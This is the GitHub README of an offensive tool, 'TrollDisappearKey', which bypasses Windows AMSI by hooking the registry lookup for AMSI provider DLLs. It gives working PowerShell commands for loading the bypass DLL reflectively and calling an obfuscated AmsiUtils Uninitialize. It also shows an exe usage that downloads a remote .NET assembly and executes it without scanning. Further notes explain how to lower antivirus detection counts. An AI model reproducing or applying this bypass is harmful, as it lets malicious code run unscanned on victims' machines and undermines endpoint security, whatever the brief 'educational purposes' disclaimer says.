 # TrollDisappearKey
TrollDisappearKey   -> .cs code to compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() \
TrollDisappearKeyPS -> .cs code to compile into a .dll to reflectively load to bypass powershell amsi 


# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 

## .powershell Usage (requires admin)
![Image](https://github.com/user-attachments/assets/f6b4d83a-ed24-433b-9e2a-4cf6bfe1d1b0)
```
pwd  # run any random command first, this is a must 

[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollDisappearKeyPS.dll"))
[TrollDisappearKeyPS]::DisappearKey()

$t1 = 'System.Manage'
$t2 = 'ment.Automa'
$t3 = 'tion.A'
$t4 = 'msi'
$t5 = 'Utils'
$object = [Ref].Assembly.GetType($t1 + $t2 + $t3 + $t4 + $t5)
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```

## Detections 
![Image](https://github.com/user-attachments/assets/60ff00a8-b619-407e-8083-29efc38c632d)



  
## .exe Usage (requires admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader \
you can immediately drop it to maybe 5 by altering the ExecuteAssembly() function since its using standard code that's deemed malicious \
Can rename certain strings the the reg key path  \
Avoid the use of certain API calls and improve the hook library further \
![Image](https://github.com/user-attachments/assets/e4c80f07-ddbc-4ed6-9ad0-c8e104931f90)


## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Credits
1. Modified hooking library from https://github.com/liulilittle/NetHook

## Disclaimer
Should only be used for educational purposes!







